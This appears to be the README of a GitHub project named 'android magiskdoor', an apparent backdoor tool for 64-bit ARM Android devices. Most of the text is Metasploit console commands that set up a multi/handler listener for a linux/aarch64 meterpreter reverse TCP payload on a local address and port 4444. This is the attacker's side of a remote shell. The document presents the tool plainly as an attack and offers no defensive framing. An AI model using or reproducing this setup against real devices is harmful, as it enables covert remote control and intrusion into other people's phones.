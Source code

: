 # android magiskdoor
currently only working attacking 64 bit arm devices from amd64 computers, porting should not be difficult though

# metasploit listening
`./msfconsole -q`  
`msf > use exploit/multi/handler`  
`msf exploit(handler) > set payload linux/aarch64/meterpreter_reverse_tcp`  
`payload => linux/aarch64/meterpreter_reverse_tcp`  
`msf exploit(handler) > set lhost 192.168.1.123`  
`lhost => 192.168.1.123`  
`msf exploit(handler) > set lport 4444`  
`lport => 4444`  
`msf exploit(handler) > run`  